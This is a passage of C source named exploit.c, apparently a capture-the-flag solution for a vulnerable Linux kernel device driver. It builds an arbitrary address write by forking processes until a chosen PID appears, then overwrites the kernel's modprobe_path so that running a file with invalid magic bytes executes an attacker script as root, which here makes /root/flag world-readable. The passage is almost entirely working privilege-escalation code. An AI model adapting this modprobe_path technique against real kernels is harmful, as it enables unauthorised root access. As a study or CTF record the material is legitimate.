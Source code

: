 ```exploit.c
  printf("[ask] %d\n", ret);
}

void ack_pid(int pid, void (*f)(ulong), ulong arg){
  while(1==1){
    int cur = fork();
    if(cur == 0){ // child
      if(getpid() % 0x100 == 0){
        printf("[-] 0x%x\n", getpid());
      }
      if(getpid() == pid){
        f(arg);
      }
      exit(0);
    }else{ // parent
      wait(NULL);
      if(cur == pid)
        break;
    }
  }
}

void sub_aaw(ulong offset){
  for (int ix = 0; ix != 0xFF; ++ix){
    ulong target = 0xffffffff00000000UL
                    + ix * 0x01000000UL
                    + offset;
    _register(fd, inbuf);
    _ask(fd, inbuf, (char *)target);
    _destroy(fd, inbuf);
  }
}

void aaw(ulong offset, unsigned val){
  ack_pid(val, &sub_aaw, offset);
}

int main(int argc, char *argv[]) {
  char s_evil[] = "/tmp/a\x00";
  memset(inbuf, 0, 0x200);
  memset(outbuf, 0, 0x200);
  strcpy(inbuf, "ABC\x00");
  fd = open(DEV_PATH, O_RDONLY);
  assert(fd >= 2);

  // setup for modprobe_path overwrite
  system("echo -ne '#!/bin/sh\nchmod 777 /root/flag' > /tmp/a");
  system("chmod +x /tmp/a");
  system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/nirugiri");
  system("chmod +x /tmp/nirugiri");

  for(int ix=0;ix<strlen(s_evil);ix+=2){
    printf("[+] writing %x.......\n", *((unsigned short*)(s_evil+ix)));
    aaw(0x256f40 - 0x10 + 8 + ix, *((unsigned short*)(s_evil+ix)));
  }

  // invoke user_mod_helper
  system("/tmp/nirugiri");

  return 0;
}

/*
```